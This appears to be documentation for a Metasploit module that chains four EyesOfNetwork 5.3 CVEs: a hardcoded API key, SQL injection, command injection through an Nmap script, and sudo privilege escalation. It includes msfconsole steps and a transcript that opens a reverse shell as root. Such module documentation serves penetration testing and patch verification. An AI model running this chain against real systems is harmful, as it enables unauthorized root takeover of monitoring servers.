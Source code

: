 ## Introduction
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.3 and prior in order to execute arbitrary commands as root.

The module first exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to generate a valid access token and use it to create a new user with admin privileges. If the generated key is not valid, the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically, it writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap host discovery scan against the target. This approach achieves privilege escalation because the default sudo configuration permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via two methods, i.e. by generating an API access token based on a hardcoded key, and via SQLI. This module has been successfully tested on EyesOfNetwork 5.3 with API version 2.4.2.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

1.  `Proxies`. This option is not set by default.
2.  `RHOSTS`. To use: `set RHOSTS [IP]`
3.  `RPORT`. The default setting is `443`. To use: `set RPORT [PORT]`
4.  `SERVER_ADDR`. This option is not set by default.
5.  `SSL`. The default setting is `true`, because HTTPS is required for the module to work.
6.  `TARGETURI`. This option is the base path. `/` by default.
7.  `VHOST`. This option is not set by default.

## Payload Options
1. `LHOST`. To use: `set LHOST [IP]`
2. `LPORT`. The default setting is `4444`. To use: `set LPORT [PORT]`


## Scenarios

```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.91.139   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Base path to EyesOfNetwork
   VHOST                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.130   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.91.130:4444 
[*] Using generated API key: a496fb1025187066dc1e4e56197bd2db1a23c565f42b98df8ff55698442b6476
[+] Authenticated as user kY7Qn1gr8L
[*] Sending payload (428 bytes) ...
[*] Command shell session 1 opened (192.168.91.130:4444 -> 192.168.91.139:45897) at 2020-02-19 15:30:31 +0200

id
uid=0(root) gid=0(root) groups=0(root)
```
## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>